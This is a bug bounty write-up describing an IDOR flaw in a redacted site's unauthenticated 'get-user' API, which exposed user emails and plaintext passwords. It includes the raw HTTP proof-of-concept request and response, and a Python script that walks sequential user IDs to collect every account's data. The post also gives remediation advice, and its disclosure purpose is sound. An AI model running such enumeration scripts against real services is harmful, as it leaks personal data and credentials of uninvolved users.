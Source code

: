 ```yaml
---
title: "How Poor Authentication Led to Massive User Data Leakage: A Security Flaw Exposed"
date: 2023-07-04 09:15:00
mermaid: true
categories: [Bug Bounty]
tags: [bugbounty, hacking, python, idor]
image:
  path: https://secure.static.tumblr.com/ef2e2596c4ea072a60453d23ceab337f/coctv14/Y6Ln55n03/tumblr_static_azgsowaz948okgow4c4o8go8c.gif
---
```


Missing authentication leads to user data leakage, data security is one of the most important concerns for digital platforms. However, vulnerabilities that can be exploited by malicious actors are still commonly found. One such vulnerability is the lack of proper authentication on APIs, which can lead to user data leakage. Authentication is basically the most important part of security when building an application because it keeps unauthenticated people from accessing anything sensitive or trying to become a privileged user.

## The User Data Leakage Case

This article recounts the experience of a security researcher who managed to access and leak user data from an application simply by exploiting a weakness in the authentication system. The researcher conducted basic testing on the app by observing system behavior and detecting a vulnerability that allowed access without sufficient authentication.

## Step One: Initial Research

My first step was to explore the target application. In this test, I used the [BurpSuite](https://portswigger.net/burp) tool to comb through the application and identify potential gaps, such as APIs that do not require authentication to access user data. This creates an opportunity for an attacker to exploit personal information, such as a user's email and password, by simply changing the user ID in the URL. The site didn't have many features and forms, I tested a few things messing with business logic, breaking authentication and session validation all seemed safe until when I checked every request in the proxy history using [BurpSuite](https://portswigger.net/burp) which made it easy to reproduce the issue. I found a `POST` api request to the path `/api/landing-page/get-user`

## Proof of Concept

### Request

```text
POST /api/landing-page/get-user HTTP/1.1
Host: redacted.com
Origin: https://redacted.com
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

guid=&code=0&data={"user_id":"<ID_USER_HERE>"}
```

### Response

```text
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
pragma: no-cache
cache-control: no-cache, no-store
content-length: 425
x-frame-options: SAMEORIGIN

{
  "code": "0",
  "info": "Successfully Get User Results",
  "data": {
    "id": 1,
    "nama": "My User",
    "email": "myuser@gmail.com",
    "msisdn": "121212122",
    "institusi": "",
    "password": "myuserpassword",
    "create_dtm": "2021-07-07T02:13:13.000Z",
    "nonce": "6603",
    "status_otp": 1,
    "status_otp_info": "{\"code\":\"0\",\"info\":\"OTP code sent successfully.\",\"data\":[]}",
    "status_otp_count": 0,
    "last_login": "2023-01-19T02:00:35.000Z"
  }
}
```

## The Security Flaw: IDOR (Insecure Direct Object Reference)

The flaw discovered in this case was an [Insecure Direct Object Reference (IDOR)](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://portswigger.net/web-security/access-control/idor&ved=2ahUKEwijl6LX5auMAxXFXmwGHYenEmMQFnoECAkQAQ&usg=AOvVaw1iGLeSV-Hu4-CW8fpbEgFg) a vulnerability that allows attackers to access other users' data by manipulating the ID parameter in API requests. In this case, the attacker only needed to change a number in the URL used to access user data, such as changing `userID=1` to `userID=2` to access data for a different user.

## Accessing and Leaking Data

By using this simple technique, the researcher was able to access user data on a large scale. The leaked data included sensitive information such as users’ email addresses and passwords. The researcher also realized that the system did not impose restrictions or protections against unauthorized access. As a result, the potential for data leakage was significantly increased, especially if the attacker knew or guessed valid user IDs.

I realized that the user IDs used were not random but sequential, so I wrote [python](https://www.python.org) code to leak the data of every registered user on the site.

### Python code

```python
import requests
import os

for i in range(10):
    r = requests.post("https://redacted.com/api/landing-page/get-user", data='guid=&code=0&data={"user_id":"{}".format(i)} ', headers={'User-Agent': f'Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/{i}', 'Content-Type': 'application/x-www-form -urlencoded'})
    if len(r.text) > 350:
        print(r.text + os.linesep)
    else:
        pass
```

Performs a loop to generate a number that will be used to guess the id of each user.

```python
for i in range(10):
```

Uses the [requests](https://pypi.org/project/requests/) library to make a request to the specified URL along with the data in the body.

```python
r = requests.post("https://redacted.com/api/landing-page/get-user", data='guid=&code=0&data={"user_id":"{}".format(i)} ', headers={'User-Agent': f'Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/{i}', 'Content-Type': 'application/x-www-form -urlencoded'})
```

Performs filtering on the response data to check if there is valid user data otherwise it will forward the next request.

```python
if len(r.text) > 350:
        print(r.text + os.linesep)
    else:
        pass
```

## The Impact of Data Leakage

Data leakage like this can have severe consequences. Exposed personal information can be used for various cybercrimes, including identity theft, fraud, or even further attacks that cause greater damage. For companies, such data breaches can harm their reputation, lead to legal consequences, and result in a loss of user trust.

## Preventing Data Leakage

Preventing data leakage caused by IDOR and other authentication flaws can be achieved with several measures:

* Implement Strong Authentication: Every API accessing sensitive data should be protected by strong and proper authentication. Using tokens or session-based authentication is an important first step.

* Access Validation: Ensure that users can only access their own data. The system must verify that the user ID provided in the API request matches the user who is making the request.

* Regular Security Testing: Conduct routine security tests, including penetration testing and code audits, to identify and patch vulnerabilities early.

* Security Training for Developers: Developers need to be thoroughly educated about potential vulnerabilities and the importance of securing APIs and authentication.

## $$$
![image](/assets/img/writeup/2023-07-04/Screenshot_2023-07-04_01-04-06.png){: .shadow }
_Rewarded by the program_

## Conclusion
Data leakage due to insufficient authentication can occur due to fundamental errors in system design. This case demonstrates the importance of always verifying access and protecting user data with the proper technology. By implementing the right preventive measures, the risk of data leakage can be minimized, and applications can operate more securely and earn the trust of users.